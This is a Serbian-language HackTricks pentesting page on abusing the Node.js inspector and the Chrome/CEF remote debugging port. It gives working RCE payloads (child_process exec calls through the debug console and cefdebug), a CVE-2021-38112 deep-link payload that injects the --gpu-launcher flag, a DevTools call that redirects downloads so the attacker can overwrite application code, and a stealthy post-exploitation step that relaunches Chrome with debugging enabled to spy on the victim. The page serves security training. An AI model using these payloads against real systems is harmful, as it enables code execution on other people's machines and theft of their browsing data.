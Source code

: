 # Node inspector/CEF debug abuse

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

[Iz dokumentacije](https://origin.nodejs.org/ru/docs/guides/debugging-getting-started): Kada se pokrene sa `--inspect` prekidačem, Node.js proces osluškuje za debagiranje klijenta. **Podrazumevano**, osluškuje na adresi i portu **`127.0.0.1:9229`**. Svaki proces takođe dobija **jedinstveni** **UUID**.

Inspector klijenti moraju znati i specificirati adresu hosta, port i UUID za povezivanje. Puna URL adresa će izgledati nešto kao `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`.

{% hint style="warning" %}
Pošto **debagirajući alat ima pun pristup Node.js okruženju izvršavanja**, zlonamerni napadač koji je u mogućnosti da se poveže na ovaj port može izvršiti proizvoljni kod u ime Node.js procesa (**potencijalno povećanje privilegija**).
{% endhint %}

Postoji nekoliko načina za pokretanje inspektora:

```bash
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```

Kada pokrenete inspektovani proces, pojaviće se nešto slično ovome:

```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```

Procesi koji se baziraju na **CEF** (**Chromium Embedded Framework**) trebaju koristiti parametar: `--remote-debugging-port=9222` da bi otvorili **debugger** (zaštite od SSRF ostaju vrlo slične). Međutim, umesto da omoguće **NodeJS** **debug** sesiju, oni će komunicirati sa pregledačem koristeći [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/), što je interfejs za kontrolu pregledača, ali nema direktnog RCE-a.

Kada pokrenete pregledač u debug modu, nešto slično ovome će se pojaviti:

```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```

### Preglednici, WebSockets i politika istog porekla <a href="#browsers-websockets-and-same-origin-policy" id="browsers-websockets-and-same-origin-policy"></a>

Veb-sajtovi otvoreni u veb-pregledaču mogu da vrše WebSocket i HTTP zahteve u skladu sa bezbednosnim modelom pregledača. **Početna HTTP veza** je neophodna da bi se **dobio jedinstveni identifikator sesije za debager**. **Politika istog porekla** sprečava veb-sajtove da mogu da uspostave **ovu HTTP vezu**. U cilju dodatne bezbednosti protiv [**DNS preusmeravanja napada**](https://en.wikipedia.org/wiki/DNS\_rebinding)**,** Node.js proverava da li **'Host' zaglavlja** za vezu precizno navode **IP adresu** ili **`localhost`** ili **`localhost6`**.

{% hint style="info" %}
Ove **bezbednosne mere sprečavaju iskorišćavanje inspektora** za pokretanje koda **samo slanjem HTTP zahteva** (što bi moglo da se uradi iskorišćavanjem SSRF ranjivosti).
{% endhint %}

### Pokretanje inspektora u pokrenutim procesima

Možete poslati **signal SIGUSR1** pokrenutom nodejs procesu da biste ga **naterali da pokrene inspektora** na podrazumevanom portu. Međutim, imajte na umu da je potrebno imati dovoljno privilegija, pa ovo može da vam pruži **privilegovan pristup informacijama unutar procesa**, ali ne i direktno eskalaciju privilegija.

```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```

{% hint style="info" %}
Ovo je korisno u kontejnerima jer **gašenje procesa i pokretanje novog** sa `--inspect` opcijom nije **moguće** jer će **kontejner** biti **ubijen** zajedno sa procesom.
{% endhint %}

### Povezivanje sa inspektorom/debagom

Da biste se povezali sa **Chromium baziranim browserom**, možete pristupiti URL-ovima `chrome://inspect` ili `edge://inspect` za Chrome ili Edge, redom. Klikom na dugme Configure, treba se osigurati da su **ciljni host i port** ispravno navedeni. Slika prikazuje primer Remote Code Execution (RCE):

![](<../../.gitbook/assets/image (620) (1).png>)

Korišćenjem **komandne linije** možete se povezati sa debagerom/inspektorom koristeći:

```bash
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```

Alatka [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug) omogućava **pronalaženje inspektora** koji se izvršavaju lokalno i **ubacivanje koda** u njih.

```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```

{% hint style="info" %}
Imajte na umu da **NodeJS RCE eksploiti neće raditi** ako ste povezani sa pregledačem putem [**Chrome DevTools Protocola**](https://chromedevtools.github.io/devtools-protocol/) (trebate proveriti API da biste pronašli zanimljive stvari koje možete uraditi s njim).
{% endhint %}

## RCE u NodeJS Debugger/Inspectoru

{% hint style="info" %}
Ako ste ovde došli u potrazi za **RCE iz XSS u Electronu, molimo proverite ovu stranicu.**]\(../../network-services-pentesting/pentesting-web/electron-desktop-apps/)
{% endhint %}

Neki uobičajeni načini dobijanja **RCE** kada možete **povezati** se sa Node **inspectorom** su korišćenje nečega poput (izgleda da ovo **neće raditi u vezi sa Chrome DevTools protokolom**):

```javascript
process.mainModule.require('child_process').exec('calc')
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require('child_process').spawnSync('calc.exe')
Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))
```

## Chrome DevTools Protocol Payloads

Možete proveriti API ovde: [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)\
U odeljku ću samo navesti zanimljive stvari koje su ljudi koristili da iskoriste ovaj protokol.

### Ubacivanje parametara putem dubokih veza

U [**CVE-2021-38112**](https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/) Rhino Security je otkrio da je aplikacija bazirana na CEF **registrovala prilagođeni URI** u sistemu (workspaces://) koji je primao ceo URI, a zatim **pokretao CEF baziranu aplikaciju** sa konfiguracijom koja je delimično konstruisana iz tog URI-ja.

Otkriveno je da su parametri URI-ja dekodirani i korišćeni za pokretanje CEF osnovne aplikacije, omogućavajući korisniku da **ubaci** zastavicu **`--gpu-launcher`** u **komandnoj liniji** i izvrši proizvoljne radnje.

Dakle, payload poput:

```
workspaces://anything%20--gpu-launcher=%22calc.exe%22@REGISTRATION_CODE
```

Izvršiće se calc.exe.

### Prepisivanje fajlova

Promenite folder gde će **preuzeti fajlovi biti sačuvani** i preuzmite fajl da **prepišete** često korišćeni **izvorni kod** aplikacije sa vašim **zlonamernim kodom**.

```javascript
ws = new WebSocket(url); //URL of the chrome devtools service
ws.send(JSON.stringify({
id: 42069,
method: 'Browser.setDownloadBehavior',
params: {
behavior: 'allow',
downloadPath: '/code/'
}
}));
```

### Webdriver RCE i eksfiltracija

Prema ovom postu: [https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148](https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148), moguće je dobiti RCE i eksfiltrirati interne stranice iz therivera.

### Post-eksploatacija

U stvarnom okruženju i **nakon kompromitovanja** korisničkog računara koji koristi Chrome/Chromium bazirani pregledač, možete pokrenuti Chrome proces sa **aktiviranim debagerom i proslediti port debagera** kako biste mu pristupili. Na ovaj način ćete moći **pregledati sve što žrtva radi sa Chromeom i ukrasti osetljive informacije**.

Neprimetan način je **prekinuti svaki Chrome proces** i zatim pozvati nešto poput

```bash
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```

## Reference

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
* [https://nodejs.org/en/docs/guides/debugging-getting-started/](https://nodejs.org/en/docs/guides/debugging-getting-started/)
* [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)
* [https://larry.science/post/corctf-2021/#saasme-2-solves](https://larry.science/post/corctf-2021/#saasme-2-solves)
* [https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
